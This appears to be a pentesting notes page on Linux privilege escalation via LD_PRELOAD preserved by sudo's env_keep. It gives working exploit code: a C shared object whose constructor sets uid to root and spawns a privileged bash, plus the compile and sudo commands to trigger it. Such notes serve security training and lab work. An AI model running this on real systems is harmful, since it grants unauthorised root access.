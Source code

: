 # LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object (.so) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init() function, we can execute code as soon as the object is loaded.

## <mark style="color:red;">Limitations</mark>

LD\_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

List the programs your user is allowed to run via sudo -l

{% hint style="info" %}
Note that the env\_keep option includes the LD\_PRELOAD environment variable.
{% endhint %}

![](../../../../.gitbook/assets/env1.png)

## <mark style="color:red;">Exploitation</mark>

Create a file (preload.c) with the following contents:

```
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

Compile preload.c to preload.so:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

![](../../../../.gitbook/assets/env2.png)
